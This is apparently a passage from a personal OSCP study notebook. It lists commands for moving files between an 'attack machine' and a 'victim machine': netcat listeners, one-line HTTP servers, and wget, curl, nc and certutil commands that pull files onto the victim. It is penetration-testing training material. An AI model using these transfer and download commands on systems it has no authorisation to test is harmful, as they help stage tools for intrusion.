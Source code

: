 # Useful Stuff 🛠️

This section of the OSCPNoteBook contains a collection of handy techniques, commands, and references that I found particularly useful throughout my journey.

## Table of Contents

- [File Sharing](#file-sharing)
- [Shells](#shells)
- [Everyday Bash One-Liners](#everyday-bash-one-liners)
- [Python2 VENV](#python2-venv)
- [Compiling Exploits](#compiling-exploits)
- [Cross-Compiling with Docker](#cross-compiling-with-docker)
- [Wordlists](#wordlists)
- [Adding RDP Users](#adding-rdp-users)
- [Executing Remote Scripts](#executing-remote-scripts)

## File Sharing
**Details and techniques related to file sharing, including protocols, tools, and best practices.**
*Note*:  I have created my own tool, [SecSwap](https://github.com/0xP1ckl3d/SecSwap), that uses a client/server model to securely exchange files over HTTP.
### Uploading From Attack Machine to Victim Machine
#### Netcat
On the receiving machine we set up a listener:
```bash
nc -nlvp 4444 > incoming.zip
```
From Kali we can send the file with:
```bash
nc –nv <IP> 4444 < outgoing.zip
```
#### HTTP:
**Options to start an HTTP server from attack machine:**
````bash
python2 -m SimpleHTTPServer <port>
sudo updog -p 80
python3 -m http.server <port>
php -S 0.0.0.0:<port>
ruby -run -e httpd . -p <port>
busybox httpd -f -p <port>
secswap server -p <port>
```
Host a stable server on port 80 within /var/www/html/
```bash
sudo systemctl restart apache2
````
**Options to pull file from Victim Machine:**
**Linux:**
```bash
wget [http://ip-addr:port/file] -o output-file
curl [http://ip-addr:port/file] -o output-file
echo "GET /[file] HTTP/1.0" | nc -n [ip-addr port] > out-file && sed -i '1,7d' [out-file]
secswap client -s [server address] -p [port number] -ls [optional directory]
```
**Windows**
Certutil:
```bash
certutil -urlcache -split -f "http://ip-addr:port/file" output-file
# OR
certutil.exe -urlcache -split -f "http://ip-addr:port/file" output-file
```
Powershell:
```bash
```